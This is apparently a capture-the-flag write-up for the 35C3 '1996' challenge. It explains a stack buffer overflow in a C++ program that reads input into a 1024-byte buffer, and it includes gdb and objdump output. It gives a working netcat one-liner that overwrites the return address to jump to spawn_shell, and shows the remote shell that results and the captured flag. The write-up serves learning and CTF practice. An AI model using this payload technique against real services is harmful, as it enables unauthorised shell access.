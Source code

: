 # 1996

The challenge is presented as

> It's 1996 all over again!
>
> nc 35.207.132.47 22227
>
> Difficulty estimate: very easy

And linked we receive an executable binary and its source code:

```cpp
// compile with -no-pie -fno-stack-protector

#include <iostream>
#include <unistd.h>
#include <stdlib.h>

using namespace std;

void spawn_shell() {
    char* args[] = {(char*)"/bin/bash", NULL};
    execve("/bin/bash", args, NULL);
}

int main() {
    char buf[1024];

    cout << "Which environment variable do you want to read? ";
    cin >> buf;

    cout << buf << "=" << getenv(buf) << endl;
}
```

And one does indeed on netcat see the here expected output and can querry a few
environment variables.

Randomly trying around, there doesn't seem to be a variable that gives access
to a flag.

# attack mechanism

My reading homework is [this
article](http://phrack.org/issues/49/14.html#article) though I got a quick
summary at the congress: the return address is at the end of a stack frame of a
function, so if one manages to write behind the space for stack-local
variables, one can write into the address to which the program should return
after the function.

In this example this means if I write something more than 1024 characters into
the variable name, the main routine will do strange things. (just 1025 might
not be enough since the frame might be larger).

## Systematic approach

So the approach I did is enter longer strings until the program
crashes locally (adding like 5 characters every time)

And then `gdb` to the rescue:

```
coredumpctl debug --debugger=my-gdb
```

Where `my-gdb` is an executable text file in my `PATH` with the following
content.

```
#!/bin/sh

exec gdb -q -n -ex 'thread apply all bt' -batch "$@"
```

(okay, one could also just do `coredumpctl debug` and then enter `bt` in `gdb`)

From the stacktrace one can see to where `main` returned.

e.g.

```
pseyfert@robusta:/tmp > python2 -c 'print "."*1050' | ./1996
pseyfert@robusta:/tmp > coredumpctl debug --debugger=my-gdb
Hint: You are currently not seeing messages from other users and the system.
      Users in groups 'adm', 'systemd-journal', 'wheel' can see all messages.
      Pass -q to turn off this notice.
           PID: 14214 (1996)
           UID: 1000 (pseyfert)
           GID: 985 (users)
        Signal: 11 (SEGV)
     Timestamp: Sat 2018-12-29 18:55:32 CET (34s ago)
  Command Line: ./1996
    Executable: /tmp/1996
 Control Group: /user.slice/user-1000.slice/session-1.scope
          Unit: session-1.scope
         Slice: user-1000.slice
       Session: 1
     Owner UID: 1000 (pseyfert)
       Boot ID: b373963778ac44f68e1e2ec562ff5581
    Machine ID: 2b05d4aea6054d149ec64f58c82ec373
      Hostname: robusta
       Storage: /var/lib/systemd/coredump/core.1996.1000.b373963778ac44f68e1e2ec562ff5581.14214.1546106132000000.lz4
       Message: Process 14214 (1996) of user 1000 dumped core.
                
                Stack trace of thread 14214:
                #0  0x00007f765c002e2e n/a (n/a)

[New LWP 14214]
Core was generated by `./1996'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00007f765c002e2e in ?? ()

Thread 1 (LWP 14214):
#0  0x00007f765c002e2e in ?? ()
#1  0xffffffffffffff90 in ?? ()
#2  0x00007ffd1f926838 in ?? ()
#3  0x000000015cb41ed0 in ?? ()
#4  0x00000000004008cd in spawn_shell() ()
#5  0x0000000000000000 in ?? ()
```

from the ascii man page I could look up that `0x2e` is dot, so the last two
dots leaked into the return pointer. Disassembly `objdump -D 1996 | vim -R +'set ft=asm' -`

```
0000000000400897 <_Z11spawn_shellv>:
  400897:       55                      push   %rbp
  400898:       48 89 e5                mov    %rsp,%rbp
  40089b:       48 83 ec 10             sub    $0x10,%rsp
  40089f:       48 8d 05 b3 01 00 00    lea    0x1b3(%rip),%rax        # 400a59 <_ZStL19piecewise_construct+0x1>
  4008a6:       48 89 45 f0             mov    %rax,-0x10(%rbp)
  4008aa:       48 c7 45 f8 00 00 00    movq   $0x0,-0x8(%rbp)
  4008b1:       00
  4008b2:       48 8d 45 f0             lea    -0x10(%rbp),%rax
  4008b6:       ba 00 00 00 00          mov    $0x0,%edx
  4008bb:       48 89 c6                mov    %rax,%rsi
  4008be:       48 8d 3d 94 01 00 00    lea    0x194(%rip),%rdi        # 400a59 <_ZStL19piecewise_construct+0x1>
  4008c5:       e8 d6 fe ff ff          callq  4007a0 <execve@plt>
  4008ca:       90                      nop
  4008cb:       c9                      leaveq
  4008cc:       c3                      retq
```

shows we need to jump to `0000000000400897` and from the stacktrace we know
that trailing zero bytes are needed.

There is one small stumble stone left, namely to be able to provide some input
for the opened bash and interactively look around:

```
(python2 -c 'print "."*1048+"\x97\x08\x40\x00\x00\x00\x00"' ; cat )| nc 35.207.132.47 22227
```

This gives a shell:

```
pseyfert@robusta:~ > (python2 -c 'print "."*1048+"\x97\x08\x40\x00\x00\x00\x00"' ; cat )| nc 35.207.132.47 22227                   
Which environment variable do you want to read? .......................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................@=
```

The cursor is at the end of that line and one's almost done after one `ls`:

```
.........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................@=ls
1996
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

okay, `flag.txt` sounds good

```
cat flag.txt
35C3_b29a2800780d85cfc346ce5d64f52e59c8d12c14
```

And there's the flag.

[![Creative Commons License](https://i.creativecommons.org/l/by-sa/4.0/80x15.png) This work is licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-sa/4.0/">Creative Commons Attribution-ShareAlike 4.0 International License](http://creativecommons.org/licenses/by-sa/4.0/)]
